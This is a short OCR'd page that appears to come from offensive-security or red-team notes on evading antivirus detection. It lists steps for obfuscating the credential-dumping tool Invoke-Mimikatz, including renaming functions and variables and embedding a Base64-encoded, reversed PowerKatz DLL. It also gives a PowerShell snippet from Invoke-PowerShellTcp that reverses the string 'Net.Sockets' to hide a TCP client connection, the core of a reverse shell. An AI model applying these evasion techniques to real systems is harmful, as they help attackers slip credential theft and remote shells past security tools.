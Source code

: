 **Obfuscation Steps:**

1. Rename script and function names (e.g., `Invoke-Mimikatz` → `Invoke-Mimi`).
2. Modify variable names for detected API calls.
3. Obfuscate the PowerKatz DLL and integrate it into the script (Base64 encoded and reversed).
4. Remove warnings and errors related to PE file loading.

**Invoke-PowerShellTcp**

Avoid detection by reversing flagged strings in the script.

**Example:**

```powershell
$String = "stekcoS.teN"
$class = ([regex]::Matches($String,'.','RightToLeft') | ForEach {$_.value}) -join ''
$client = New-Object System.$class.TCPClient($IPAddress,$Port)
```
